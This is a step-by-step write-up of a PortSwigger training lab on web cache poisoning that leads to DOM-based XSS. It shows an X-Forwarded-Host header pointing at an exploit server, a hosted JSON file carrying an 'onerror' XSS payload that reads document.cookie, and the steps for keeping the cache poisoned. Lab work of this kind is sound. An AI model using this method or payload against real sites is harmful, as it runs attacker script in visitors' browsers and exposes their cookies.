 # Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-to-exploit-a-dom-vulnerability-via-a-cache-with-strict-cacheability-criteria) contains a DOM-based vulnerability that can be exploited as part of a web cache poisoning attack. A user visits the home page roughly once a minute. The cache used by this lab has stricter criteria for deciding which responses are cacheable, so a study of the cache behaviour is necessary. 

## Reproduction and proof of concept

1. With Burp running, open the website's home page.
2. In Burp, go to **Proxy -> "HTTP history** and study the requests and responses that you generated. Find the `GET` request for the home page and send it to Burp Repeater.
3. Use [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) to identify that the `X-Forwarded-Host` header is supported.
4. Add a cache buster to the request, as well as the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`. Notice that this header overwrites the `data.host` variable, which is passed into the `initGeoLocate()` function.
5. Study the `initGeoLocate()` function in `/resources/js/geolocate.js` and notice that it is vulnerable to DOM-XSS due to the way it handles the incoming JSON data.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

```text
/resources/json/geolocate.json
```
    
7. In the head, add the header `Access-Control-Allow-Origin: *` to enable CORS.
8. In the body, add a malicious JSON object that matches the one used by the vulnerable website. However, replace the value with a suitable XSS payload, for example:

```text
{
"country": "<img src=1 onerror=alert(document.cookie) />"
}
```

9. **Store** the exploit.
10. Back in Burp, find the request for the home page and send it to Burp Repeater.
11. In Burp Repeater, add the following header, remembering to enter your own exploit server ID:

```text
X-Forwarded-Host: exploit-server-id.exploit-server.net
```
    
12. Send the request until you see your exploit server URL reflected in the response and X-Cache: hit in the headers.
13. If this doesn't work, notice that the response contains the Set-Cookie header. Responses containing this header are not cacheable on this site. Reload the home page to generate a new request, which should have a session cookie already set.
14. Send this new request to Burp Repeater and repeat the steps above until you successfully poison the cache.
15. To simulate the victim, load the URL in the browser and make sure that the alert() fires.
16. Replay the request to keep the cache poisoned until the victim visits the site and the lab is solved.

## Exploitability

An attacker will need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. 

